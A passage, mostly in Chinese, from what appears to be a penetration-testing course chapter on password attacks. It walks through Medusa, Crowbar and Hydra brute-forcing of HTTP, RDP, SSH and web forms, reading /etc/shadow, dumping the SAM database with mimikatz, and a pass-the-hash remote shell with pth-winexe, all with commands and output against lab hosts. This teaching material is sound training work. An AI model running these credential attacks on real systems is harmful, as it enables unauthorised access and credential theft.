Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / FooFus Networks <jmk@foofus.net>

ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: 123456 (1 of 14344391 com

ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: 12345 (2 of 14344391 comp

ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: 123456789 (3 of 14344391

ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: password (4 of 14344391 c

ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: iloveyou (5 of 14344391 c

...

ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: samsung (255 of 14344391

ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: freedom (256 of 14344391

ACCOUNT FOUND: [http] Host: 10.11.0.22 User: admin Password: freedom [SUCCESS]

...
```

### 列表 602 - 使用 Medusa 进行 HTTP htaccess 攻击

在这种情况下，`Medusa` 发现了一个可用的密码 "freedom"。

`Medusa` 有许多其他选项和设置，如列表 603 中的帮助输出所示：

```
kali@kali:~$ medusa

Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / FooFus Networks <jmk@foofus.net>

ALERT: Host information must be supplied.

Syntax: Medusa [-h host] [-H file] [-u username] [-U file] [-p password] [-P file] [-C file]
-M module [OPT]

-h [TEXT] : Target hostname or IP address

-H [FILE] : File containing target hostnames or IP addresses

-u [TEXT] : Username to test
```


557 (baflb28, 2016), https://sourceforge.net/projects/crunch-wordlist/
558 (THC Hydra, 2019), https://github.com/vanhauser-thc/thc-hydra
559 (Foofus Net, 2015), http://h.foofus.net/?page_id=51
560 (Galkan, 2017), https://github.com/galkan/crowbar
561 (SpiderLabs, 2019), https://github.com/SpiderLabs/Spray

# 19.3.1 Medusa

`-U [FILE]` : 包含要测试的用户名的文件  
`-P [TEXT]` : 要测试的密码  
`-p [FILE]` : 包含要测试的密码的文件  
`-C [FILE]` : 包含组合条目的文件。更多信息请参阅 README。  
`-0 [FILE]` : 追加日志信息到的文件  
`-e [n/s/ns]` : 额外的密码检查 ([n] 无密码, [s] 密码 = 用户名)  
`-M [TEXT]` : 要执行的模块名称（不含 .mod 扩展名）  
`-m [TEXT]` : 传递给模块的参数。此参数可以多次传入，每次使用不同的参数，并且它们都将发送给模块 (`-m Param1 -m Param2`, 等)  
`-d` : 转储所有已知模块  
`-n [NUM]` : 用于非默认 TCP 端口号  
`-s` : 启用 SSL  
`-g [NUM]` : 在尝试连接 NUM 秒后放弃（默认 3）  
`-r [NUM]` : 在重试尝试之间休眠 NUM 秒（默认 3）  
`-R [NUM]` : 在放弃前尝试 NUM 次重试。总尝试次数为...  
`-c [NUM]` : 等待验证套接字可用性的时间（微秒）（默认 500 微秒）  
`-t [NUM]` : 并发测试的总登录次数  
`-T [NUM]` : 并发测试的总主机数  
`-L` : 使用每线程一个用户名来并行化登录。默认是先传递整个用户名再继续进行。  
`-f` : 找到第一个有效的用户名/密码后停止扫描该主机。  
`-F` : 在任何主机上找到第一个有效的用户名/密码后停止审计。  
`-b` : 抑制启动横幅  
`-q` : 显示模块的使用信息  
`-v [NUM]` : 详细级别 [0 - 6 (越多)]  
`-V [NUM]` : 错误调试级别 [0 - 10 (越多)]  
`-Z` : 显示版本  
`-Z [TEXT]` : 基于先前扫描的映射恢复扫描

*列表 603 - Medusa 选项和模块*

该工具可以与多种网络协议交互，可以通过 `-d` 选项显示，如下面的列表 604 所示。

```
kali@kali:~$ medusa -d

Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

Available modules in ".":

Available modules in "/usr/lib/medusa/modules" :

+ cvs.mod : Brute force module for CVS sessions : version 2.0

+ ftp.mod : Brute force module for FTP/FTPS sessions : version 2.1

+ http.mod : Brute force module for HTTP : version 2.1

+ imap.mod : Brute force module for IMAP sessions : version 2.0

+ mssql.mod : Brute force module for MS-SQL sessions : version 2.0

+ mysql.mod : Brute force module for MySql sessions : version 2.0

... 
```

*列表 604 - Medusa 选项和模块*

### 19.3.1.1 练习

*(这些练习不需要报告)*

1. 重复对 **受 haccess 保护的文件夹** 的密码攻击。
2. 创建一个包含你的 Windows 客户端密码的密码列表，并使用它对 Windows 客户端的 SMB 协议进行密码攻击。

#### 19.3.2 使用 Crowbar 进行远程桌面协议攻击

Crowbar，正式名称为 Levey，是一种网络身份验证破解工具，主要设计用于利用 SSH 密钥而非密码。它也是少数能够可靠且高效地对现代 Windows 版本中的 Windows 远程桌面协议 (RDP) 服务执行密码攻击的工具之一。让我们尝试对该 Windows 客户端机器使用此工具。

首先，让我们从 Kali 仓库安装 Crowbar：

```
kali@kali:~$ sudo apt install crowbar

Reading package lists... Done

Building dependency tree

Reading state information... Done

...
```

*列表 605 - 使用 apt install 安装 crowbar*

为了调用 `crowbar`，我们将指定协议 (`-b`)、目标服务器 (`-s`)、用户名 (`-u`)、单词列表 (`-C`) 以及线程数 (`-n`)，如下面的列表 606 所示：

```
kali@kali:~$ crowbar -b rdp -s 10.11.0.22/32 -u admin -C /password-file.txt -n 1

2019-08-16 04:51:12 START

2019-08-16 04:51:12 Crowbar v0.3.5-dev

2019-08-16 04:51:12 Trying 10.11.0.22:3389

2019-08-16 04:51:13 RDP-SUCCESS : 10.11.0.22:3389 - admin:Offsec!

2019-08-16 04:51:13 STOP
```

*列表 606 - 使用 Crowbar 进行 RDP 密码攻击*

请注意，Crowbar 发现了“admin”用户的有效凭证。由于远程桌面协议无法可靠地处理多个线程，因此我们指定了单个线程。

要查看其他支持的协议，我们可以使用 `--help` 标志运行 `crowbar`：

```
kali@kali:~$ crowbar --help

usage: Usage: use --help for further information

Crowbar is a brute force tool which supports OpenVPN, Remote Desktop Protocol, SSH Private Keys and VNC Keys.

positional arguments:
  options

optional arguments:
  -h, --help            show this help message and exit
  -b {vnckey,sshkey,rdp,openvpn}, --brute {vnckey,sshkey,rdp,openvpn}
                      Target service
  -s SERVER, --server SERVER
                      Static target
  -S SERVER_FILE, --serverfile SERVER_FILE
                      Multiple targets stored in a file
  -u USERNAME [USERNAME ...], --username USERNAME [USERNAME ...]
                      Static name to login with
  -U USERNAME_FILE, --usernamefile USERNAME_FILE
                      Multiple names to login with, stored in a file
```


| 选项 | 描述 |
| :--- | :--- |
| `-n THREAD, --number THREAD` | 同时活动的线程数 |
| `-l FILE, --log FILE` | 日志文件（仅写入尝试记录） |
| `-o FILE, --output FILE` | 输出文件（写入其他所有内容） |
| `-c PASSWD, --passwd PASSWD` | 用于登录的静态密码 |
| `-C FILE, --passwdfile FILE` | 用于登录的多个密码，存储在一个文件中 |
| `-t TIMEOUT, --timeout TIMEOUT` | `[SSH]` 每个线程等待多长时间（秒） |
| `-p PORT, --port PORT` | 如果服务不使用默认值，则更改端口 |
| `-k KEY_FILE, --keyfile KEY_FILE` | `[SSH/VNC]` (私钥) 密钥文件或包含多个文件的文件夹 |
| `-m CONFIG, --config CONFIG` | `[OpenVPN]` 配置文件 |
| `-d, --discover` | 在攻击开放端口之前进行端口扫描 |
| `-v, --verbose` | 启用详细输出 (`-vv` 获取更多) |
| `-D, --debug` | 启用调试模式 |
| `-q, --quiet` | 仅显示成功的登录 |

*列表 607 - Crowbar 帮助输出*

### 19.3.2.1 练习

*(这些练习不需要报告)*

1. 创建一个包含你的 Windows 客户端密码的密码列表，并使用它对 Windows 客户端重复上述 Crowbar 密码攻击。

#### 19.3.3 使用 THC-Hydra 进行 SSH 攻击

`THC-Hydra` 是另一个正在积极开发的强大网络服务攻击工具，值得掌握。我们可以用它来攻击各种协议身份验证方案，包括 `SSH` 和 `HTTP`。

标准选项包括 `-l` 用于指定目标用户名，`-P` 用于指定单词列表，以及 `protocol://IP` 分别用于指定目标协议和 IP 地址。

在这个第一个示例中，我们将攻击我们的 Kali VM。我们将在本地机器上使用 SSH 协议 `ssh://127.0.0.1`，专注于 `kali` 用户 (`-l kali`)，并再次使用 `rockyou` 单词列表 (`-P`)。

```
kali@kali:~$ hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1

Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-06-07 08:35:59

[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (1:1/p:14344399)

[DATA] attacking ssh://127.0.0.1:22/

[22][ssh] host: 127.0.0.1   login: kali    password: whatever

1 of 1 target successfully completed, 1 valid password found

Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-06-07 08:36:13
```

*列表 608 - 使用 Hydra 进行 SSH 攻击*

在输出中，我们可以看到 `hydra` 发现了针对本地 SSH 服务器的有效登录。

`THC-Hydra` 支持多种标准协议和服务，如下面的列表 609 所示：

```
kali@kali:~$ hydra

Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service

Syntax: hydra [[[-L LOGIN|-L FILE] [-P PASS|-P FILE] | [-C FILE]] [-e nsr] [-o FILE]

[-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-z] [-s PORT] [-x MIN:MAX:CHARSET

] [-c TIME] [-IS0uVd46] [service://server::PORT][/OPT]]

...

Supported services: adams6500 asterisk cisco cisco-enable cvs firebird ftp tftp http[s]

-[head|get|post] http[s]--[get|post] -form http-proxy http-proxy-urlenum icq imap[s] irc

ldapt[s] ldapt[s]-[cram|digest]md5[s] mssql mysql nntp oracle-listener oracle-sid pcany

where pcfw pop3[s] postgres radmin2 rdp redis rexec rlogin rproxy rsync s7-300 sip

smb smtp[s] smtp-enam snmp sock5 ssh sstkey svn teamspeak telnet[s] vmauthd vnc xnxp

...
```

*列表 609 - THC-Hydra 支持的模块*

### 19.3.3.1 练习

*(这些练习不需要报告)*

1. 在你的 Kali VM 上重现 Hydra SSH 攻击。

#### 19.3.4 使用 THC-Hydra 进行 HTTP POST 攻击

作为另一个示例，我们将使用 Hydra 对我们的 Windows Apache 服务器执行 HTTP POST 攻击。当使用 HTTP POST 请求进行用户登录时，最常通过网页表单实现，这意味着我们应该使用 "`http-form-post`" 服务模块。我们可以提供服务名称后跟 `-u` 以获取有关所需参数的额外信息：

```
kali@kali:~$ hydra http-form-post -u

Help for module http-post-form:

Module http-post-form requires the page and the parameters for the web form.

By default this module is configured to follow a maximum of 5 redirecations in a row. It always gathers a new cookie from the same URL without variables

The parameters take three ":" separated values, plus optional values.

(Note: if you need a colon in the option string as value, escape it with "\\\\", but do not escape colons in URL encoding)

Syntax: <url>::<form parameters>[:<condition string>[:<optional>[:<optional>]]]

First is the page on the server to GET or POST to (URL).

Second is the POST/GET variables (taken from either the browser, proxy, etc,

with url-encoded (resp, base64-encoded) usernames and passwords being replaced in the

"^USERA^" (resp. "^USER64^") and "^PASSA^" (resp. "^PASS64^") placeholders (FORM PARAMS).

Third is the string that it checks for an ^invalid^ login (by default)

Invalid condition login check can be preceded by "F=^", successful condition
```


login check must be preceded by `"S="`.

This is where most people get it wrong. You have to check the webapp what a failed string looks like and put it in this parameter!

以下参数是可选的：

- `C=/page/uri` 用于定义不同的页面以收集初始 cookie
- `(h|H)=My-Hdr: foo` 用于在每个请求中发送用户定义的 HTTP 头
- `USER[64]` 和 `PASS[64]` 也可以放入这些头中！

注意：无论 Hydra 是否已经在发送该头，`'h'` 都会在末尾添加用户定义的 HTTP 头。如果该头已存在，`'H'` 将用用户提供的值替换该头的值，或者在末尾添加该头。请注意，如果你要在头中使用冒号（`:`），应该用反斜杠进行转义。所有不是选项分隔符的冒号都应该转义（参见上面的示例）。你可以指定头而不转义冒号，但这样你无法在头值本身中包含冒号，因为它们会被 Hydra 解释为选项分隔符。

### 列表 610 - 关于 http-form-post 模块的附加信息

从这个输出中，我们确定需要提供一组参数，这要求我们执行一些应用程序发现。首先，我们需要 Windows 客户端上包含 Web 表单的网页的 IP 地址和 URL。IP 地址将作为 Hydra 的第一个参数提供。

接下来，我们必须通过检查相关网页（位于 `/form/login.html`）的 HTML 代码来理解我们要进行暴力破解的 Web 表单。

图 294 显示了在页面中右键单击并选择上下文菜单中的**查看页面源代码**后目标 Web 表单的代码：


上述表单是 `/form/login.html` 页面的一部分，它表明 POST 请求由 `/form/frontpage.php` 处理，这是我们要传递给 Hydra 的 URL。列表 610 中显示的语法需要表单参数，在本案中是 `user` 和 `pass`。由于我们使用字典攻击管理员用户登录，传递给 Hydra 的组合参数变为 `/form/frontpage.php:user=admin&pass=^PASS^`，其中 `^PASS^` 充当字典文件条目的占位符。


我们还必须提供条件字符串以指示登录尝试不成功时的情况。这可以通过尝试几次手动登录来找到。在我们的示例中，如图 295 所示，网页返回文本“INVALID LOGIN”。


将这些部分组合起来，我们可以完成 http-form-post 语法，如列表 611 所示。

```bash
http-form-post "/form/frontend.php:user=admin&pass=^PASS^:INVALID LOGIN"
```

### 列表 611 - 指定 http-form-post 语法

现在可以执行完整命令了。我们将提供管理员用户名（`-l admin`）和字典文件（`-P`），使用 `-vV` 请求详细输出，并使用 `-f` 在找到第一个成功结果时停止攻击。此外，我们将提供服务模块名称（`http-form-post`）及其所需参数（`"/form/frontend.php:user=admin&pass=^PASS^:INVALID LOGIN"`），如列表 612 所示：

```bash
kali@kali:~$ hydra 10.11.0.22 http-form-post "/form/frontend.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f

Hydra v8.8 (c) 2019 by van Hauser/THC – Please do not use in military or secret service

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-06-07 15:55:21

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:i:p/14344399)

[DATA] attacking http-post-form://10.11.0.22/form/frontend.php:user=admin&pass=^PASS^:INVALID LOGIN

[VERBOSE] Resolving addresses ... [VERBOSE] resolving done

[ATTEMPT] target 10.11.0.22 - login "admin" - pass "123456" - 1 of 14344399 [child 0]

[ATTEMPT] target 10.11.0.22 - login "admin" - pass "12345" - 2 of 14344399 [child 1]

[ATTEMPT] target 10.11.0.22 - login "admin" - pass "123456789" - 3 of 14344399 [child 2]

[ATTEMPT] target 10.11.0.22 - login "admin" - pass "password" - 4 of 14344399 [child 3]

[ATTEMPT] target 10.11.0.22 - login "admin" - pass "iloveyou" - 5 of 14344399 [child 4]

[ATTEMPT] target 10.11.0.22 - login "admin" - pass "princess" - 6 of 14344399 [child 5]

[ATTEMPT] target 10.11.0.22 - login "admin" - pass "1234567" - 7 of 14344399 [child 6]

....

[ATTEMPT] target 10.11.0.22 - login "admin" - pass "karina" - 268 of 14344399 [child 1]

[ATTEMPT] target 10.11.0.22 - login "admin" - pass "dookie" - 269 of 14344399 [child 2]

[ATTEMPT] target 10.11.0.22 - login "admin" - pass "hotmail1" - 270 of 14344399 [child 3]

[ATTEMPT] target 10.11.0.22 - login "admin" - pass "0123456789" - 271 of 14344399 [child 4]

[80][http-post-form] host: 10.11.0.22   login: admin   password: crystal

[STATUS] attack finished for 10.11.0.22 (valid pair found)

1 of 1 target successfully completed, 1 valid password found

Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-06-07 15:55:29
```


### 列表 612 - 使用 THC-Hydra 攻击 Web 表单

虽然这需要对该应用程序进行一些调查，但结果是值得的，因为发现了一个有效密码。Hydra 附带提供的其他服务模块也值得花精力去掌握。

## 19.3.4.1 练习

（这些练习不需要报告）

- 对你的 Windows 客户端上的 Web 表单运行 HTTP POST 密码攻击。
- 对你本地 Kali Linux 机器上的 Pure-FTPD 应用程序执行 FTP 密码攻击。

### 19.4 利用密码哈希

接下来，我们将注意力转移到专注于使用`密码哈希`的攻击。

加密`哈希函数` [562] 是一种单向函数，实现一种算法，该算法给定任意数据块，返回一个固定大小的位字符串，称为“哈希值”或“消息摘要”。加密哈希函数最重要的用途之一是在密码验证中的应用。

### 19.4.1 检索密码哈希

大多数使用密码认证机制的系统需要在本地机器上存储这些密码。为了提高安全性，现代认证机制通常以哈希形式存储密码，而不是明文存储。这对操作系统、网络硬件等均是如此。这意味着在认证过程中，用户提供的密码会被哈希化，并与之前存储的消息摘要进行比较。

在没有有关生成哈希的程序或机制的更多信息的情况下，确定确切的哈希类型可能具有挑战性，有时甚至不可能。`Openwall 网站` [563] 可以帮助识别各种密码哈希的来源。在尝试识别消息摘要类型时，需要考虑三个重要的哈希属性。这些包括哈希的长度、哈希中使用的字符集以及哈希中使用的任何特殊字符。

一个有助于哈希类型识别的有用工具是 `hashid` [564]。要使用它，我们只需运行该工具并粘贴我们要识别的哈希：

```bash
kali@kali:~$ hashid c43ee559d69bc7f691fe2fbfe8a5ef0a

Analyzing 'c43ee559d69bc7f691fe2fbfe8a5ef0a'

[+] MD2

[+] MD5

[+] MD4

[+] Double MD5

[+] LM

[+] RipeMD-128

[+] Haval-128

[+] Tiger-128

[+] Skein-256(128)

[+] Skein-512(128)

[+] Lotus Notes/Domino 5

[+] Skype

[+] Snefru-128

[+] NTLM

[+] Domain Cached Credentials

[+] Domain Cached Credentials 2

[+] DNSSEC(NSEC3)

[+] Radmin v2.x
```

[562] (Wikipedia, 2019), https://en.wikipedia.org/wiki/Cryptographic_hash_function
[563] (Openwall, 2019), http://openwall.info/wiki/john/sample-hashes
[564] (Pspanda, 2015), https://pspanda.github.io/hashID/


```bash
kali@kali:~$ hashid '$6$l5bL6XIA$sL8wwUD$bxCc$TlbhTH76wE.b1G6aMYSeDXKQ8$7JNFwa1s1kK7and6ZsqQKAF3G6tHD9bd59e5Naz/s7DQcAoJRTWnpZX0'

Analyzing '$6$l5bL6XIA$sL8wwUD$bxCc$TlbhTH76wE.b1G6aMYSeDXKQ8$7JNFwa1s1kK7and6ZsqQKAF3G6tHD9bd59e5Naz/s7DQcAoJRTWnpZX0'

[+] SHA-512 Crypt
```

### 列表 613 - 使用 hashid 识别可能的哈希格式

在上述列表中，我们分析了两个不同的哈希。虽然第一个示例返回了多个可能的匹配项，但第二个将哈希类型缩小为 `SHA-512 Crypt`。

接下来，让我们在我们的 Kali Linux 系统中检索并分析一些哈希。许多 Linux 系统将在`/etc/shadow` 文件中存储用户密码哈希，该文件需要 root 权限才能读取：

```bash
kali@kali:~$ sudo grep root /etc/shadow

root:$6$Rw99z2TBSAZwfboPwMG6z2t1BeK.EL74sivuCva8YhrCGX6oVdeYUGsf8iwNxJcr.wTLDj5Ipo$yaGuCLawTg/gewQKo7jT/:17564:0:99999:7:::
```

### 列表 614 - 取自我们 Kali Linux /etc/shadow 文件的 root 用户哈希

在列表 614 中，该行以用户名（`root`）开头，后跟密码哈希。哈希分为子字段，第一个（`$6`）引用 SHA-512 [565] 算法。下一个子字段是`盐值` [566]，它与明文密码一起用于创建密码哈希。盐值是一个随机值，与明文密码一起用于计算密码哈希。这防止了哈希查找攻击 [567]，因为密码哈希将根据盐值而变化。

> 攻击者可以在哈希表中存储不同字典文件的预计算哈希值。[568] 这些表可能消耗数 TB 的存储空间，具体取决于预计算密码的数量，但可用于快速映射（查找）哈希到明文密码。加盐增加了在计算实际哈希之前密码值的随机化，大大降低了这种攻击成功的几率。

[565] (Slashroot, 2013), https://www.slashroot.in/how-are-passwords-stored-linux-understanding-hashing-shadow-utils
[566] (Wikipedia, 2019), https://en.wikipedia.org/wiki/Salt_(cryptography)
[567] (nets.ca, 2012), https://nets.ca/Cryptography
[568] (Wikipedia, 2019), https://en.wikipedia.org/wiki/Hash_table

以便该哈希值存在于预计算的表中。你可以参考 HashKiller[569] 网站作为哈希查找服务的示例。

现在，让我们将焦点转向 Windows 目标，并讨论各种哈希实现是如何被使用的，以及我们如何在评估中利用它们。

在 Windows 系统中，经过哈希处理的用户密码存储于安全账户管理器（Security Accounts Manager，SAM）中，[570] 为了遏制针对 SAM 数据库的离线密码攻击，微软引入了 SYSKEY 功能（Windows NT 4.0 SP3），它会对 SAM 文件进行部分加密。

基于 Windows NT 的操作系统（直至 Windows 2003 为止）存储两种不同的密码哈希：LAN Manager（LM），[571] 其基于 DES[572]，以及 NT LAN Manager（NTLM），[573] 它使用 MD4[574] 哈希。由于长于七个字符的密码会被拆分为两个字符串并分别进行哈希处理，因此已知 LAN Manager 非常薄弱。此外，每个密码字符串在哈希之前还会转换为大写字母，而且 LM 哈希系统不包含盐值（salt），这使得哈希查找攻击成为可能。

从 Windows Vista 开始，操作系统默认禁用 LM 并使用 NTLM。除了其他特性外，NTLM 区分大小写，支持所有 Unicode 字符，并且不会将哈希值拆分为更小、更薄弱的部分。然而，存储在 SAM 数据库中的 NTLM 哈希值仍未加盐。

值得一提的是，由于 Windows 内核会对该文件保持独占文件系统锁，因此在操作系统运行时无法复制 SAM 数据库。但是，我们可以使用 `mimikatz`[575]（在另一个模块中有更深入的介绍）来挂载内存攻击，以转储 SAM 哈希值。

除其他功能外，`mimikatz` 模块还可以从本地安全授权子系统（Local Security Authority Subsystem，LSASS）[576] 进程内存中缓存的位置提取密码哈希值。

由于 LSASS 是一个以 SYSTEM 用户身份运行的特权进程，我们必须从管理命令提示符启动 `mimikatz`。要提取密码哈希值，我们必须先执行两条命令。第一条是 `privilege::debug`，它启用修改另一个进程所需的 `SeDebugPrivilege` 访问权限。如果该命令失败，则很可能是因为 mimikatz 没有以管理员权限执行。

理解 LSASS 是一个 SYSTEM 进程这一点很重要，这意味着它拥有比以管理员权限运行的 `mimikatz` 更高的权限。为了解决这个问题，我们可以使用 `token::elevate` 命令将安全令牌从高完整性（管理员）提升至 SYSTEM 完整性。如果 `mimikatz` 是从 SYSTEM shell 启动的，则不需要这一步。让我们现在逐步了解这个过程：


C:\> `C:\Tools\password_attacks\mimikatz.exe`

. . .

mimikatz # `privilege::debug`

Privilege '20' OK

mimikatz # `token::elevate`

Token Id : 0

User name : 

SID name : NT AUTHORITY\SYSTEM

740 {0;000003e7} 1 D 33697 NT AUTHORITY\SYSTEM S-1-5-18 (04g,2 lp)

Primary

-> Impersonated !

* Process Token : {0;0002e0fe} 1 F 3790250 corp\offsec S-1-5-21-3048852426-3234707088-723452474-1103 (12g,24p) Primary

* Thread Token : {0;000003e7} 1 D 3843067 NT AUTHORITY\SYSTEM S-1-5-18

(04g,21p) Impersonation (Delegation)

```
*列表 615 - 使用 mimikatz 准备转储 SAM 数据库*
```

> 值得注意的是，令牌模块可以列出（`token::list`）并使用（`token::elevate`）当前登录到该机器上所有用户的令牌，在某些情况下，这甚至可能是其他机器的管理员。

现在我们可以使用 `lsadump::sam` 来转储 SAM 数据库的内容：

```
mimikatz # lsadump::sam

Domain : CLIENT251

SysKey : 457154fe3c13064d8ce67ff93a9257cf

Local SID : S-1-5-21-342691779-1881636637-1944612440

SAMKey : 9b60bd58cdfd663166e8624f20a9a6e5

RID : 000001f4 (500)

User : Administrator

RID : 000001f5 (501)

User : Guest

RID : 000001f7 (503)

User : DefaultAccount

RID : 000001f8 (504)

User : WDAGUtilityAccount

Hash NTLM: 0c509cca8bcd12a26acfd1e508cb028

RID : 000003e9 (1001)

User : Offsec

Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
```

*列表 616 - 使用 mimikatz 转储 SAM 数据库*

我们可以看到，mimikatz 优雅且有效地按照要求转储了哈希值。

> 其他哈希转储工具，包括 `pwdump`、`fgdump`，[577] 以及 Windows Credential Editor (`wce`)[578] 在针对 Windows XP 和 Windows Server 2003 等旧版 Windows 操作系统时效果良好。

## 19.4.1.1 练习

（这些练习不要求提交报告）

- 1. 识别你的 Kali 系统中使用的密码哈希版本。
- 2. 使用 `mimikatz` 从你的 Windows 客户端上的 SAM 数据库中转储密码哈希。

## 19.4.2 在 Windows 中通过哈希传递

正如我们将在下一节中发现的那样，破解密码哈希可能非常耗时，如果没有强大的硬件支持，往往不可行。然而，有时我们可以利用基于 Windows 的密码哈希，而无需进行繁重的破解过程。

通过哈希传递（Pass-the-Hash，PtH）技术（发现于 1997 年）允许攻击者使用有效的用户名和 NTLM/LM 哈希值组合（而不是明文密码）对远程目标进行身份验证。这是可能的，因为 NTLM/LM 密码哈希值未加盐，并且在会话之间保持静态。此外，如果我们在一个目标上发现了密码哈希值，我们不仅可以将其用于对该目标进行身份验证，还可以将其用于对另一个目标进行身份验证，只要该目标具有相同用户名和密码的账户即可。

让我们引入一个场景来演示这种攻击。在我们的评估期间，我们发现在多个系统上启用了本地管理员账户。我们利用了其中一个系统上的漏洞并获得了 SYSTEM 权限，这使我们能够转储本地 LM 和 NTLM 哈希值。我们已经复制了本地管理员的 NTLM 哈希值，现在可以使用它代替密码来访问具有相同本地管理员账户和密码的另一台机器。

为此，我们将使用 Passing-The-Hash 工具包中的 `pth-winexe`[579]（`winexe` 的一个修改版本），它使用 SMB 协议进行身份验证：

```
kali@kali:~$ pth-winexe

winexe version 1.1

This program may be freely redistributed under the terms of the GNU GPLv3

Usage: winexe [OPTION]... //HOST COMMAND

Options:

-h, --help Display help message

-V, --version Display version number

-U, --user=[DOMAIN\]USERNAME[:PASSWORD] Set the network username

-A, --authentication-file=FILE Get the credentials from a file

...
```

*列表 617 - 显示 pth-winexe 的帮助对话框*

> 要使用 SMB 协议在远程计算机上执行 `cmd` 等应用程序，需要管理员权限。这是由于对管理共享 `C$` 的身份验证以及随后创建 Windows 服务所致。

作为演示，我们将在 Kali 机器上调用 `pth-winexe`，使用之前转储的密码哈希对目标进行身份验证。我们通过指定用户名和哈希值（`-U`）以及 SMB 共享（以 UNC 格式表示）和要执行的命令名称（在列表 618 中为 `cmd`）来获取目标机器上的远程命令提示符。我们将忽略 *DOMAIN* 参数，并在哈希值前加上用户名（后跟 % 符号）以完成命令。其语法略显复杂，如下所示：

```
kali@kali:~$ pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd

E_md4hash wrapper called.

HASH PASS: Substituting user supplied NTLM HASH...

Microsoft Windows [Version 10.0.16299.309]

(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```


### 列表 618 - 使用 pth-winexe 通过哈希传递

根据列表 618 中的输出，命令成功执行，提供了目标上的 shell，并使用了捕获的哈希值作为凭据。

在幕后，我们提供的 NTLM 哈希值的格式在身份验证过程中被更改为 NetNTLM 版本 1 或 2[580] 格式。我们可以使用中间人攻击或中毒攻击捕获这些哈希值，然后要么破解它们，[581] 要么中继它们。[582]

例如，像 Internet Explorer 和 Windows Defender 这样的某些应用程序使用 Web 代理自动发现协议（Web Proxy Auto-Discovery Protocol，WPAD）[583] 来检测代理设置。如果我们位于本地网络中，我们可以使用像 `Responder.py` 这样的工具来毒化这些请求并强制 NetNTLM 身份验证，[584] 该工具创建一个专门用于利用此安全问题的恶意 WPAD 服务器。由于中毒对其他用户具有高度干扰性，因此永远不应在实验室中使用 `Responder.py` 等工具。

[569] HashKiller, 2019, https://hashkiller.co.uk/
[570] Wikipedia, 2019, https://en.wikipedia.org/wiki/Security_Accounts_Manager
[571] Wikipedia, 2019, https://en.wikipedia.org/wiki/LM_hash
[572] Wikipedia, 2019, https://en.wikipedia.org/wiki/Data_Encryption_Standard
[573] Wikipedia, 2019, https://en.wikipedia.org/wiki/NTLM
[574] Wikipedia, 2019, https://en.wikipedia.org/wiki/MD4
[575] Dimitris Siamarls, 2017, https://blog.3cr.de/mimikatz-deep-dive-on-lsadmuplsx-patch-and-inject.html
[576] Wikipedia, 2019, https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service
[577] Foofus.Net, 2008, http://foofus.net/goons/fffzgig/fgdump/downloads.htm
[578] Amplia Security, 2018, https://www.ampliasecurity.com/research/windows-credentials-editor/
[579] byt3bl33d3r, 2015, https://github.com/byt3bl33d3r/ptk-toolkit
[580] Wikipedia, 2019, https://en.wikipedia.org/wiki/NT_LAN_Manager#NTLMv1
[581] Rob Brown, 2018, https://mark0zer0day.com/pasc-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html
[582] by3b33d3r, 2017, https://by3b33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html
[583] Wikipedia, 2019, https://en.wikipedia.org/wiki/Web_Proxy_Auto-Discovery_Protocol
[584] SpiderLabs, 2019, https://github.com/SpiderLabs/Responder

### 19.4.2.1 练习

- 1. 使用 `Mimikatz` 从 Windows 客户端中提取管理员用户的密码哈希。
- 2. 复用该密码哈希，从你的 Kali 系统发起“传递哈希”（pass-the-hash）攻击，并在你的 Windows 客户端上获取代码执行权限。

#### 19.4.3 密码破解

在密码分析学中，密码破解是指根据存储的哈希值恢复明文口令的过程。

从高层次来看，密码破解的过程相当直接。一旦我们确定了目标认证过程中所使用的哈希机制，就可以遍历词表中的每个单词并生成相应的消息摘要。如果计算出的哈希值与从目标系统获取的哈希值相匹配，我们就获得了匹配的明文密码。这通常都是借助专门的密码破解程序完成的。

> 如果认证过程中涉及盐值（salt）且我们不知道该盐值的具体内容，破解可能会变得极其复杂甚至不可能，因为我们需要使用各种盐值反复对每个潜在的明文密码进行哈希运算。尽管如此，根据我们的经验，我们几乎总能捕获到密码哈希以及盐值，无论是来自包含每记录中这两个唯一值的数据库，还是来自使用单一盐值对所有哈希值进行处理的配置文件或二进制文件。当这两个值都已知时，密码破解的复杂度会降低。

一旦我们获取了目标系统的密码哈希，就可以开始一个后台运行的密码破解会话，同时继续我们的评估。如果任何密码被破解，我们可以尝试将这些密码用于其他系统，以增加对目标网络的控制权。与其他渗透测试过程一样，这是一个迭代过程，随着我们扩大控制范围，我们会将数据反馈到早期步骤中。

为了演示密码破解，我们将再次使用 `John the Ripper`，因为它支持数十种密码格式，并且功能强大、灵活。

